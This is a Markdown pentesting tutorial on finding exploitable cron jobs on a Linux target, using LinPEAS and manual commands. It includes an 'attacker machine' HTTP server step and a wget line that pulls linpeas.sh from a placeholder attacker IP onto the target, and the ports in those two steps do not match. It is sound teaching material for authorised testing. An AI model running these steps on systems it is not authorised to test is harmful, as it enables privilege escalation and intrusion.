







### **Enumerating Cron Jobs Using LinPEAS**

1.  Set up an HTTP server on your attacker machine in the directory where `linpeas.sh` is located:  
    `python3 -m http.server 80`  
    
    

2.  Use the following command on the target machine to download LinPEAS:  
    `wget http://[IP-ADRESS]:8000/linpeas.sh`
    
    

3.  Run LinPEAS to enumerate system cron jobs:  

     

    ??? info "NOTE"

        LinPEAS enumerates the cron jobs and displays the same information found manually.

    

    ??? info "NOTE"

        Red/Yellow in LinPEAS indicates a 95% chance that the finding can be exploited for privilege escalation

### **Enumerating System Cron Jobs Manually**

1.  The first place to check for cron jobs is in the system crontab file:  
    `cat /etc/crontab`  

    

**Here we can see that two cron jobs are running on this host:**

1.  The first cron job runs every minute, executing the `overwrite.sh` script.

2.  The second cron job runs every minute, executing the `/usr/local/bin/compress.sh` script.

3.  If no cron jobs are found in the crontab file, or if these ones cannot be exploited, check for custom jobs in all of the cron directories:  
    `ls -l /etc/cron*`  
    
    

    ??? info "NOTE"

        All five additional directories where cron jobs can execute from are shown. No custom cron jobs were found; these are all standard jobs commonly found by default

### **Enumerating User Cron Jobs Manually**

1.  After enumerating all the system crontabs, check for user cron jobs (hidden cron jobs):  
    `ls -l /var/spool/cron/crontabs`  
    
    
    
    ??? info "NOTE"

        Standard users cannot access the directory where user cron jobs are stored.

     
2.  And when we check the /var/spool/cron folder permissions, we can see why.  
    `ls -l /var/spool/cron | grep "crontabs"`  

     

    ??? info "NOTE"

        The 'T' sticky bit is a permission bit set on a directory that allows only the owner or the root user to delete or rename the files within it.